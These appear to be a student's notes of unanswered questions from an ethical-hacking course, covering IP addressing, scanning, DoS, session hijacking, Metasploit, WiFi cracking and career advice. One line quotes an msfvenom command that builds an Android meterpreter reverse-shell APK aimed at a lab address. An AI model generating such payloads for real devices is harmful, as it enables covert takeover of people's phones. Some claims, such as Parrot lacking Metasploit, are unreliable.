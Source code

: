1. is IP address can't be starting with 0 like this 0.012.322.333 ❌ , but initially 0 can be like this 012.223.112.999 ✔ - am i correct or wrong ? <br>Ques 1 : is 0.192.168.1 & 192.168.1.0 - is this IP address is correct or not ? & if not then why - ask for reason 

--- 

- lecture no. 27 - Android Hacking using Msfvenom & Ahmyth
- sir wrote the command : `msfvenom -p android/meterpreter_reverse_tcp lhost 192.168.133.128 lport 8686 >amit.apk`
	- Q Doubt 0 : if we make connection local to local system in vmware <br>then we can take any port no. , so can we actually take any port no. <br>Q Doubt 1 : consider we're making connection b/w local to local system <br>then why sir only took 8686 as a port no. <br>Q Doubt 2 : can we take port no. like 80 or something else <br>Q Doubt 3 : how to decided which port no. we can take to make connection
	- Ans of all 3 Qs  : 
		- 

---
- lecture no. - 14
- lecture name : network scanning 
- sir said : so "TCP" - can be scanned easily on 1 or 2 Ports , if TCP makes scanning on Port no. `65535` <br>then firewall will block
	- doubt : 
		- 1) is u meant that TCP can be scanned on Port no. `1` or `2`  OR did u mean 1 or 2 ports 
			- Ans : 
	- extra doubt : is any specific port no. used by TCP to establish connection with the IP address of a system
- sir said : when we do `netdiscover` & 1st & 2nd IP addresses are of Vmare's Virtiual router 
	- Doubt : 
		- so is that same statement will be applied in actual machine if we do ethical hacking via actual machines <br>currently we're doing hacking virtually 

---
- lecture no. 26 , name : concept of DOS attack
- practical work of hping3 
	- Doubt : in metasploitable2 , when we're running `cat /dev/urandom` - then sounds coming & sometimes sound coming
	- Q : how to turn ON or OFF before running `cat /dev/urandom`
	- Ans : 

---
- lecture no. 27 & 28 , name : DOS attack practical & Session Hijacking
- Pratical : in DOS Attack practical - we used BurpSuite Tool <br>& in session Hijacking - we used Wireshark <br>- in both cases , we used different tools to intercept the data packets
- Doubt : can't we used BurpSuite tool in Session Hijacking - cuz we're intercepting the data packet request <br>- when user was login inside testphpvuln.com
- Ans : 

---
- Lecture 17 ✔
- lecture name : 
- sir run this command : `mount -o nfs 192.168.59.130:/ /home/kali/Desktop/Mount/`
	- Doubt : 

---

- lecture 17 to 19 ✔
- doubt : in these lectures , why we're using only msfconsole tool <br>- is that the reason that victim's system is metasploit that's why or not ?

--- 
- lecture 18 ✔
- lecture name : More About Exploitation & Armitage
- sir : when sir was doing exploit on tomcat then we're getting error i.e 500 internal server error
	- Doubt : i tried via msfconsole & even but same issue coming
	- Ans : 
--- 

- what does mean "found shell OR shell opened" when we hack a system ✔
- Ans : 

---

- lecture 34
- lecture name : cryptography
- sir said : that Substitution cipher technique takes 4 pairs from the plain text like message is "i am devendra"
	- timeline : 24:02 - 27:23
	- Doubt : is Substitution cipher technique actually takes 4 pairs or not  <br>if yes - then is it also skip next 4 pair - then it'll take next 4 pair for encryption<br>Ans : 
	- Doubt : is it also takes a space as a plain text <br>Ans : 

---

- lecture 30 , name - wifi hacking
- Doubt 1 : is wifi router save the mac address of a connected device
	- Ans : 
- Doubt 2 : cracking the password (which has WPA2 encryption) - & after running a common word list passwords <br>then let's say password still not cracked from that handshake file <br>- then what's the 2nd option - which was sir saying (but he didn't show the 2nd solution)
	- Ans : 

---

general doubt
- Q : how to check private vs Public IP on my PC
	- Doubt : when i executed `ipconfing` in cmd as administration - then which one is my private IP
	- Ans : 
- Q : if someone hacked a person's IP address then what that hacker can do<br>Q : how i can protect if someone hacked my IP address 
	- Ans : 
- Q : what is a payload or payload is a malicious scripts<br>Q : how is it different from virus & worm

---



--- 

- Q : parrot os vs kali linux os 2024 <br>Ans : <br>> Do hackers use ParrotOS? <br>Ans : Parrot Security OS and Kali are both used for Penetration testing and both are are Debian OS. If you go with the Kali you can use metasploit tool which is used for several reasons including System Hacking and Mobile Hacking. **This is not present in Parrot Security OS**.
	- [Kali Linux vs Parrot OS. Introduction | by S12 Pentest | Medium](https://medium.com/@ssalssa.1.12.2.1.2.1/kali-linux-vs-parrot-os-704b85972821)
	- Q : Why Kali is better than parrot ? <br>Ans : **Kali has all the basic hacking tools**, while Parrot also adds its own tools such as AnonSurf, Wifiphisher, Airgeddon. Kali has more than 300 pentesting and IT audit tools, while Parrot has more than 750 well-known cybersecurity applications.


---

- what is the syntax for deleting a report in msf6/msfconsole database in kali linux ✔
	- i tried to delete a specific report via "db_destroy" but it's not working
	- sir even said that remove that hosts report file from the folder then it'll automatically will be removed <br>but is there any command ?
	- doubt : i removed all the hosts successfully via armitage GUI , <br>but is there any cli command to remove the particular host/report in msfconsole
	- Ans : sir said , use `db_remove <host/IPaddress>` <br>- & generally we don't remove cuz if we do so - then further services related to msfconsole will also removed <br>- so do 

---

1. for guidance 
	- for get a job/internship into Ethical Hacking or cyber security what should i need to do <br>- Eg : Reddit eg : should i do CompTIA certs (A+, Net+, Sec+) - are these useful to do or any impact will happen in my resume

--- 

### Guidance after course
- Q : in which i need to be updated & in which field not <br>Eg : so i need to keep update in CEH , penetration & in which field not need to be updated
- Q : will ai replace Ethical hackers , cuz u saw penetestGPT on github